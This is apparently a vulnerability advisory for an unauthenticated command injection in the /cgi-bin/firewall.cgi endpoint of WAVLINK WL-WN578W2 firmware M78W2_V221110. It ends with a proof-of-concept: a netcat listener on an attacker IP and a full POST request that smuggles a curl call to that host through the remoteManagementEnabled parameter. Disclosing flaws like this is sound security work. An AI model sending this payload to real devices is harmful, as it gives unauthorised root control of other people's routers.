




# WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (firewall.cgi)

PS:


1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **No authentication required**: Attackers can exploit the vulnerability directly without login credentials, significantly increasing risk.

## Overview

A critical unauthenticated command injection vulnerability exists in `/cgi-bin/firewall.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). The endpoint lacks authentication checks, and the `pingFrmWANFilterEnabled`，`blockSynFloodEnabled`，`blockPortScanEnabled`，`remoteManagementEnabled` parameter (processed in the `sub_401C5C` function, which handles firewall-related logic) is not sanitized. Unauthenticated attackers can send POST requests with injected commands to take full control of the device.




## Details


*   **Vendor**: WAVLINK

*   **Vendor Website**: https://www.wavlink.com/zh_cn/index.html
*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2_V221110

*   **Firmware Download**: https://docs.wavlink.xyz/Firmware/fm-578w2/

*   **Affected Endpoint**: `/cgi-bin/firewall.cgi` (POST method)

*   **Vulnerable Code**: `ftext` function (no authentication check) & `sub_401C5C` function (unsanitized parameter processing)

*   **Vulnerability Type**: Unauthenticated Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary `root` commands without login (e.g., exfiltrate sensitive data, plant persistent backdoors, tamper with device configurations)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Technical Analysis

The vulnerability arises from two critical flaws in the firmware logic:


In the `sub_401C5C` function, the `pingFrmWANFilterEnabled`，`blockSynFloodEnabled`，`blockPortScanEnabled`，`remoteManagementEnabled` parameter (extracted from the request via the `sub_403654` function) is directly concatenated into a system command string (calling the `winstar_firewall.sh` script) without filtering special characters (e.g., `;`, `&&`). The concatenated command is then executed via the system execution function, enabling attackers to inject arbitrary commands through the `remoteManagementEnabled` parameter.





## Proof of Concept (PoC)

### PoC: Unauthenticated `curl` Command Injection

No authentication cookies or headers are required; the vulnerability can be verified using a Netcat listener.

#### 1. Start Netcat Listener (Attacker Machine)

On the attacker-controlled machine (e.g., IP address `192.168.10.154`), run the Netcat listener command to capture requests sent from the target device: `nc -lvnp 1234`.


#### 2. Send Unauthenticated POST Request

Send the following POST request to the target router (no login or authentication information is included):


```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 156
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: */\*
Origin: http://wifi.wavlink.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://wifi.wavlink.com/man_security.shtml
Accept-Encoding: gzip, deflate
Connection: close

firewall=websSysFirewall&remoteManagementEnabled=0;curl http://192.168.10.154:1234#&pingFrmWANFilterEnabled=0&blockPortScanEnabled=0&blockSynFloodEnabled=0
```




